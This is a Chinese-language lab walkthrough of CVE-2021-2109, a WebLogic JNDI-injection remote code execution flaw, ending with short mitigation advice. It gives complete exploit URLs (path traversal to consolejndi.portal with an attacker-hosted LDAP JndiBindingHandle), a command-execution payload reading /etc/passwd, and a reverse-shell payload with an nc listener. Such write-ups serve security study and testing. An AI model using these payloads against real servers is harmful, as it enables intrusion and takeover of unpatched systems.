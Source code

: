 # CVE-2021-2109 WebLogic LDAP远程代码执行漏洞

## Description

2020年11月19日，阿里云安全向Oracle官方报告了Weblogic Server远程代码执行漏洞，漏洞编号为CVE-2021-2109。攻击者可通过LDAP协议，实现JNDI注入攻击，加载远程CodeBase下的恶意类，最后执行任意代码从而控制服务器。

## 漏洞影响

* WebLogic Server 10.3.6.0.0
* WebLogic Server 12.1.3.0.0
* WebLogic Server 12.2.1.3.0
* WebLogic Server 12.2.1.4.0
* WebLogic Server 14.1.1.0.0

## Explanation of exploit; PoC

### 运行靶场环境

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 `http://your-ip:7001`，看到如下页面即为靶场正常运行。

![](images/cve-2021-2109-1.png)

### 漏洞复现

访问URL: `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal`, 可以看到如下页面，且在影响范围内则可能存在漏洞。

![](images/cve-2021-2109-2.png)

下载漏洞攻击需要的一款用于JNDI注入利用的工具，该工具大量参考/引用了 Rogue JNDI 项目的代码，支持直接植入内存shell，并集成了常见的bypass 高版本JDK的方式，适用于与自动化工具配合使用。

![](images/cve-2021-2109-3.png)

- 使用 `java -jar JNDIExploit.jar -h` 查看参数说明，其中 `--ip` 参数为必选参数
- 使用 `java -jar JNDIExploit.jar -u` 查看支持的 LDAP 格式

在 kali 运行工具启动 LDAP 服务，`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i xxx.xxx.xxx.xxx`，其中 `xxx.xxx.xxx.xxx` 为 kali 的 IP 地址。

![](images/cve-2021-2109-4.png)

**RCE**

刷新 `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal` 页面，并通过 Burp Suite 拦截请求，发送到 Repeater，修改 `URL` 为 `/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
`，并添加参数 `cmd` 值为 `cat /etc/passwd`，点击 `Send`，即可看到如下页面，即为成功利用漏洞。

???+ tip "Payload 注意"
    
    `ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho` 这里 LDAP服务器地址第三个分隔符号为 `;`

![](images/cve-2021-2109-5.png)

**反弹 Shell**

先在 kali 监听 4444 端口，`nc -lvvp 4444`

然后在 Burp Suite 中修改 `URL` 为 `/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/ReverseShell/xxx.xxx.xxx.xxx/4444;AdminServer%22)`

???+ tip "Payload 注意"
    
    `ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho` 这里 LDAP服务器地址第三个分隔符号为 `;`

![](images/cve-2021-2109-6.png)

看到如下页面，即为成功利用漏洞。

![](images/cve-2021-2109-7.png)

## Mitigation

![](images/cve-2021-2109-8.png)

1. 由于是通过JNDI注入进行远程代码执行，建议升级Weblogic Server运行环境的JDK版本；
2. 升级官方安装补丁：[https://www.oracle.com/security-alerts/cpujan2021.html](https://www.oracle.com/security-alerts/cpujan2021.html)

## 参考链接

1. [漏洞分析见](https://mp.weixin.qq.com/s/wX9TMXl1KVWwB_k6EZOklw)
2. [调试分析参考](https://mp.weixin.qq.com/s/WtoUzPEgLlU8jUzvzC75Dg)
3. [Oracle 发布2021年1月关键补丁更新，修复多个严重漏洞](https://mp.weixin.qq.com/s/gRgrzgkgeehT1DnnlnqQKw)